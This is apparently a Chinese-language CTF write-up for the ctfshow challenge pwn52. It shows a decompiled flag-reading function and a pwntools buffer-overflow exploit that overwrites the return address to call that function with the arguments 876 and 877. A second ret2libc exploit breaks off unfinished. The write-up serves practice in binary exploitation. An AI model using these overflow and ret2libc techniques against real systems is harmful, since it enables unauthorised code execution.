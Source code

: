 flag函数

```c
char *__cdecl flag(int a1, int a2)
{
  char *result; // eax
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("/ctfshow_flag", "r");
  if ( !stream )
  {
    puts("/ctfshow_flag: No such file or directory.");
    exit(0);
  }
  result = fgets(s, 64, stream);
  if ( a1 == 876 && a2 == 877 )
    return (char *)printf(s);
  return result;
}
```

初略理解后，大意为传入参数a1,a2为对应值

就可以输出数组s的内容

而数组s读取了stream的前64字节的内容

stream又是依靠只读打开的ctfshow_flag的内容

所以拿到数组S就是拿到目标flag

找flag函数地址

再找到偏移量

exp：

```python
from pwn import *
u=remote("pwn.challenge.ctf.show",28231)
offset = 0x6C
flag = 0x08048586
payload=b'a'*(offset+4)+p32(flag)+p32(0)+p32(876)+p32(877)
u.sendline(payload)
u.interactive()
```

还可以用ret2libc做，存在puts函数，套板子就能出

exp:

```python
from pwn import *
from LibcSearcher import *

io = remote('pwn.challenge.ctf.show', 28188)
# io = process("")
elf = ELF('./pwn52')
# libc= ELF('libc.so.6')

main_add =0x0804874E
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ", hex(puts_got))
print("Puts_plt: ", hex(puts_plt))

offset =0x6C

```